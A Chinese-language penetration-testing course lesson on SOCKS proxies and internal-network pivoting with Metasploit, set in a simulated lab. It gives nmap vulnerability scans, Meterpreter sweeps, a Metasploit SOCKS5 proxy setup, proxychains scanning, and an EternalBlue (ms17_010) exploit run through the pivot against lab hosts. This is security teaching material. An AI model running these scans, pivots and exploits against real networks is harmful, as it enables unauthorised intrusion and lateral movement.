# 课程P63：第31天 - Metasploit Socks代理实战 🚀

在本节课中，我们将学习Socks代理的基本概念、常用工具，并通过一个靶场实战演示如何利用Metasploit建立Socks代理通道进行内网穿透。

## 概述

Socks代理是一种网络传输协议，常用于在客户端与外网服务器之间建立通信通道。在网络安全领域，它常被用作内网穿透的技术手段。本节课将分为三个部分：首先介绍Socks代理的基本原理，然后列举相关工具，最后通过Metasploit进行实战演练。

---

## 第一部分：Socks代理简介 🔍

上一节我们概述了课程内容，本节中我们来深入了解什么是Socks代理。

Socks是一个网络传输协议，主要用于客户端与外网服务器之间的通信中转。它充当内网客户端与外网服务器之间的数据传输通道。

根据OSI或TCP/IP五层模型，Socks会话协议位于表示层与传输层之间，属于会话层协议。它使用TCP协议传输数据。

需要注意的是，Socks协议不提供传递ICMP信息类的网络层网关服务。ICMP协议（如常用的`ping`命令）位于网络层，而Socks协议通过TCP/IP传输数据，因此不支持通过Socks通道使用`ping`命令探测内网主机存活状态。

### 使用Socks通道的优势

在现代网络架构中，内部网络与外部网络通常通过防火墙等设备进行隔离，限制直接访问。防火墙通常以应用层网关形式工作，控制如HTTP、FTP、SMTP等协议的访问。Socks通道可以安全、透明地穿过防火墙，实现受限制协议的通信。

### Socks代理版本





以下是Socks4与Socks5两个版本的主要特点与区别：

*   **Socks4**： 是HTTP代理协议的增强，它代理所有向外连接，没有协议限制。
*   **Socks5**： 是Socks4版本的扩展，增加了对UDP代理和身份验证的支持。Socks5采用地址解析方案，支持域名和IPv6地址解析。






### 使用Socks代理的要点


使用Socks代理时，需要了解以下三点：

1.  **代理服务器IP地址**： 客户端需要通过代理服务器IP建立Socks通道。
2.  **代理服务器端口**： 通常默认端口为`1080`。
3.  **身份验证**： 需要确认代理服务是否需要进行身份验证（即是否需要账号密码）。

---


## 第二部分：Socks代理相关工具 🛠️


上一节我们介绍了Socks代理的基本概念，本节中我们来看看有哪些常用的Socks代理工具。

以下是几种常用的内网穿透与代理工具：


*   **EarthWorm (ew)**： 一个便携式网络穿透工具，功能强大。主要用于内网穿透，支持建立Socks5服务器和端口转发。该工具已停止更新，但可在提供的工具包或网络上找到。
*   **frp**： 一个高性能的反向代理应用，适用于内网穿透。下节课将介绍在无法使用MSF时，如何利用frp等进行内网穿透。
*   **Proxychains**： 一个常用的代理工具，在Linux系统中经常用于使应用的网络流量通过指定的代理。例如，配置Proxychains后，可以使`nmap`等工具的扫描流量通过Socks代理通道进入目标内网。
    *   配置示例（在`/etc/proxychains.conf`末尾）：
        ```bash
        socks5 192.168.78.1 10800
        ```
    *   使用示例：
        ```bash
        proxychains curl google.com
        ```
*   **其他工具**： 如`SocksCap`、`Proxifier`等Windows平台的全局代理工具，可以将本机应用程序的流量导入配置的代理通道。



---



## 第三部分：Metasploit Socks代理实战 ⚔️

前面两节我们学习了理论基础和工具，本节我们将进入实战环节，利用Metasploit进行Socks代理内网穿透。

本次实战使用一个模拟的靶场环境（CFS商城靶场），该环境便于理解内网穿透场景。攻击者从外网开始，逐步向内网渗透。



### 实战场景


模拟场景包含以下机器：
*   **攻击机 (Attacker)**： 我们的Kali Linux机器。
*   **公网服务器 (Target 1)**： IP为 `192.168.78.66`，模拟公司对外的Web服务器。
*   **内网机器 (Target 2, Target 3)**： 处于`192.168.22.0/24`和`192.168.33.0/24`网段，外部无法直接访问。


**攻击路径**： 首先攻陷公网服务器(Target 1)，将其作为跳板机，然后通过它攻击内网的其他机器(Target 2, Target 3)。

### 实战步骤

#### 1. 信息收集与初始攻击

面对目标IP `192.168.78.66`，第一步是进行信息收集，重点是端口扫描。




使用`nmap`进行综合扫描：
```bash
nmap -A -T4 -p- --script=vuln 192.168.78.66
```
*   `-A`： 综合扫描，获取OS、服务版本等详细信息。
*   `-T4`： 设置扫描速度（1-5，数字越大越快）。
*   `-p-`： 扫描全端口（1-65535）。
*   `--script=vuln`： 运行漏洞检测脚本。

扫描结果显示开放了21(FTP)、22(SSH)、80(HTTP)等端口。访问80端口是一个默认页面。


#### 2. 漏洞利用与获取Shell



对于简单的Web页面，常见的测试方向包括目录枚举、寻找后台、测试默认口令或已知漏洞等。假设通过枚举发现了一个存在漏洞的管理后台，并利用其成功获取了Target 1 (`192.168.78.66`) 的Meterpreter Shell。



#### 3. 内网探测与Socks代理建立

获取跳板机权限后，需要探测其所在内网环境。

在Meterpreter会话中，运行以下命令进行内网信息收集：
```bash
run post/multi/gather/ping_sweep RHOSTS=192.168.22.0/24
# 或使用ARP扫描
run post/windows/gather/arp_scanner RHOSTS=192.168.22.0/24
```

接下来，在MSF中建立Socks代理服务，使攻击机的流量能通过跳板机进入内网。

```bash
# 在MSF控制台(msf6)中
use auxiliary/server/socks_proxy
set SRVHOST 0.0.0.0
set SRVPORT 1080
set VERSION 5 # 使用Socks5协议
run
```
这样就在攻击机上启动了一个Socks5代理服务器（端口1080）。

#### 4. 配置代理与内网工具使用




现在需要让攻击机上的扫描工具通过这个代理访问内网。

修改`/etc/proxychains.conf`文件，在末尾添加：
```bash
socks5 127.0.0.1 1080
```

然后使用`proxychains`驱动工具扫描内网机器（例如`192.168.22.33`）：
```bash
proxychains nmap -sT -Pn -n 192.168.22.33
```
*   `-sT`： 使用TCP连接扫描（因为Socks代理不支持ICMP）。
*   `-Pn`： 跳过主机发现（假设主机存活）。
*   `-n`： 禁止DNS解析。

#### 5. 横向移动

通过代理扫描发现内网机器`192.168.22.33`开放了445端口（SMB）。可以进一步使用MSF模块通过Socks代理进行攻击。

```bash
# 在MSF中设置全局代理，使MSF发起的攻击流量也走Socks通道
setg Proxies socks5:127.0.0.1:1080
setg ReverseAllowProxy true # 允许反向连接通过代理


# 使用SMB漏洞模块
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.22.33
set PAYLOAD windows/x64/meterpreter/bind_tcp # 使用Bind类型载荷
# ... 设置其他参数
exploit
```
成功后就获得了第二台内网机器(`192.168.22.33`)的Shell，可以继续向内网更深层（如`192.168.33.0/24`网段）渗透。

---

## 总结 🎯

本节课我们一起学习了Socks代理在内网穿透中的应用。



我们首先了解了Socks代理的基本概念和工作原理，然后认识了`EarthWorm`、`frp`、`Proxychains`等常用工具。最后，通过一个完整的靶场实战，演示了如何利用Metasploit获取跳板机Shell、建立Socks5代理通道，并配置`Proxychains`驱动扫描工具进行内网探测和横向移动。


关键点在于理解流量走向：攻击机工具 -> 本地Socks代理(1080) -> MSF模块转发 -> 跳板机 -> 目标内网。掌握这一流程是进行内网渗透测试的基础。